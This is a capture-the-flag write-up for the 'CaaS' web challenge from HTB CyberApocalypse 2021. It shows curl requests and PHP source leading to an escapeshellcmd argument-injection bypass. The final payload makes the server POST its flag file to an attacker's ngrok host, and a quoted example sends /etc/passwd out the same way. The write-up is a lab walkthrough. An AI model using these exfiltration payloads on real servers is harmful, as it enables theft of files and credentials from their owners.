


**CTF:** HTB CyberApocalypse 2021 <br>
**CHALLENGE:** CaaS<br>
**CATEGORY:** Web

## Prompt
>cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.

We're provided with both an IP:port, and a [.zip](./web_caas.zip) of the website's source code.

## Walkthrough


Just a hunch from the splash page, this challenge is going to be about curl. ;-)

Looking through the page source, `main.js` references an api endpoint called curl that's expecting a POST request with `ip=value` in the data field.

```js
fetch('/api/curl', {
  method: 'POST',
  body: `ip=${host}`,
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  }
}
```

Let's see what we can do!

<br>**Step 0:** Use the web interface and see what happens.<br>
Spoiler alert: nothing happened. BUT this let me use Network tab of Firefox Developer Tools to "copy as cURL" and start playing with an initial API request.

<br>**Step 1:** Use the API as intended to understand what normal looks like

**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data 'ip=127.0.0.1'
```

**response:** the page we asked for, wrapped in json <br>
```html
{"message":["<html>","<head>","\t<meta charset=\"UTF-8\">","\t<title>Health Check<\/title>","\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, user-scalable=no\">","\t<link rel=\"icon\" href=\"\/static\/images\/favicon.png\">","\t<link rel=\"stylesheet\" href=\"\/static\/css\/main.css\"\/>","    <link href=\"https:\/\/fonts.googleapis.com\/css?family=Inconsolata:400,700|VT323\" rel=\"stylesheet\">","<\/head>","<body>","    <div class=\"main\">","        <h1>Health Checker 9000<\/h1>","        <p>Verify the status of a host by specifying an IP address.<\/p>","        <div class=\"margin\"><\/div>","        <p class=\"green\">[root@localhost] # curl <input autofocus contenteditable=\"true\" id=\"command\"><\/input><\/p>","        <center><textarea id=\"console-output\" readonly><\/textarea><\/center>","    <\/div>","<\/body>","<script src=\"\/static\/js\/main.js\"><\/script>","<\/html>"]}
```

<br>**Step 2:** Do something unexpected with the API to see what error cases look like

**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data 'ip=127.0.0.1/flag'
```

**response:** nothing
```
{"message":[]}
```

<br>**Step 3:** Resign myself to the fact that I have to go through the provided php source code to figure out what's actually going on.

 The first thing I noticed was that there's a file named `flag` at the root of the unzipped file, which is what we're trying to get access to.

<br><br>
The next file that sticks out is `/controllers/CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
Now that we know what's handling our POST request, maybe we can break things :-D

<br>**Step 4:** See if we can do some kind escape to overwrite the `$url` parameter in `CurlController.php` to execute our own commands
**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data "ip='];$url='whoami';//"
```

**response:** nope.
```
{"message":[]}
```

**Step 5-16:** flail.

**Step 17:** Recognize that things aren't working, and it's time for another approach.
Looking deeper through the provided source code, I found where curl is getting called in `/model/CommandModel.php`.

```php
$this->command = "curl -sL " . escapeshellcmd($url);
```

I wouldn't say I'm overly familiar with php, but searching the Internet for `escapeshellcmd` bypasses yielded [this gem](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl). The premise is that you can use curl to include a local (to the web server) file in a POST request to a different web server of your choosing.

```php
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));
```

The example uses `/etc/passwd`, but we can modify that to send the flag, which we know is in the root directory from the provided zip. To make this work, we also need to be hosting a publicly-routable web server that can handle POST requests. To handle the "publicly-routable" component, I used [ngrok](https://ngrok.com/), which provides a URL that exposes a local server behind a NAT or firewall (e.g. a home network where everything is NAT'd out a router). Spinning up a VPS would have been another viable option. On the web server front, I started with Python's simple server, and quickly learned that it does NOT handle POST requests. A quick Google, later and I found [something that did](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7).

**Step 17a:** establish an ngrok tunnel and unique URL<br>
**Step 17b:** run a web server that can handle POSTed data<br>
**Step 17c:** pew pew curl pew pew<br>
**Step 17d:** flag!<br>

**request:**
```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data "ip=-F flag=@/flag https://078b894bbeba.ngrok.io"
```

**response:** captured POST to our web server has the flag!<br><br>

